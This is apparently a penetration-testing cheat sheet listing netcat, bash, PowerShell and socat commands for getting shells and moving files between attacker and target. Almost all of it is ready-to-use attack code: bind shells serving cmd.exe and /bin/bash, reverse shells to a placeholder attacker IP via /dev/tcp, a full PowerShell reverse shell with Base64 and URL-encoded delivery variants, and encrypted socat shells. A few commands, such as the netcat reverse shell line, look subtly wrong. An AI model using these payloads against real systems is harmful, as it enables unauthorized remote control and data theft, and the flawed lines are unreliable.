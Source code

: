 - N.b. many commands below are being run as `sudo` to make use of a port in the `0-1024` range, since root is needed to bind a listener to a port `<1024`. Beyond this range this is not necessary.

## NETCAT

### Flags:
- `-n` Skip DNS resolution
- `-v` Verbose
- `-l` Create listener
- `-p <port number>` To specify port number

Create Listener:
```bash
nc -nlvp <port to listen on>
```
Make Connection:
```bash
nc -nv <IP address> <port>
```
Listen For File Transfer:
```bash
nc -nlvp <port> > incoming
```
Send File:
```bash
nc -nv <IP address> <port> < file/to/transfer
```
Create Bind Shell Windows:
```bash
nc -nlvp <port> -e cmd.exe
```
Send Reverse Shell Linux:
```bash
cat /tmp/f | /bin/sh -i 2>&1 | nc -nl 127.0.0.1 4444 > /tmp/f
```

## OTHER

### Simple Reverse Shell Linux:
```bash
bash -c "bash -i >& /dev/tcp/<OurIP>/4444 0>&1"
```
When you inevitably need to URL encode (https://meyerweb.com/eric/tools/dencoder/):
```bash
bash%20-c%20%22bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F<OurIP>%2F4444%200%3E%261%22
```
### Powershell Reverse Shell (Base64 Encoded):
```powershell
pwsh
$Text = '$client = New-Object System.Net.Sockets.TCPClient("<attacker IP>",4444);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()'
$Bytes = [System.Text.Encoding]::Unicode.GetBytes($Text)
$EncodedText =[Convert]::ToBase64String($Bytes)
$EncodedText
```
```bash
powershell -enc <our Base64 encoded Powershell revshell>
```
Powershell Simple HTTP Server (Doesn't seem to work after testing):
https://www.powershellgallery.com/packages/Start-WebServer/1.1/Content/Start-WebServer.ps1

## SOCAT

- N.b. Whenever we execute a shell we use `/bin/bash` if our target is a Linux machine, this must be substituted for `'cmd.exe', pipes` for Windows.

### Bind Shell:
Set up our listener on the target, which will deliver a shell to anyone who tries to make a connection
```bash
sudo socat -d -d TCP4-LISTEN:443 EXEC:/bin/bash
```
Now just connect with the target
```bash
socat - TCP4:<target IP>:443
```
### Reverse Shell:
Create listener on our machine
```bash
sudo socat -d -d TCP4-LISTEN:443 STDOUT
```
Send shell from target machine
```bash
socat TCP4:<attacker IP>:443 EXEC:/bin/bash
```
### File Transfer (Attacker to Target):
Prepare listener on source that will send the file to any machine that makes a connection
```bash
sudo socat TCP4-LISTEN:443,fork file:<filename>
```
Connect to source from target
```bash
socat TCP4:<IP address>:443 file:<received filename>,create
```
### Generate .pem:
Generate certificate on target machine
```bash
openssl req -newkey rsa:2048 -nodes -keyout shell.key -x509 -days 362 -out shell.crt
```
Create .pem from keyfile and certificate
```bash
cat shell.key shell.crt > shell.pem
```
### Encrypted Bind Shell:
Begin listening for attempts to connect, and deliver a shell to anyone who tries
```bash
sudo socat OPENSSL-LISTEN:443,cert=shell.pem,verify=0,fork EXEC:/bin/bash
```
Connect like so
```bash
socat - OPENSSL:<target IP>:443,verify=0
```
### Encrypted Reverse Shell:
Create listener on our machine
```bash
sudo socat -d -d OPENSSL-LISTEN:443,cert=shell.pem,verify=0,fork STDOUT
```
Send shell from target machine
```bash
socat TCP4:<attacker IP>:443, verify=0 EXEC:/bin/bash
```

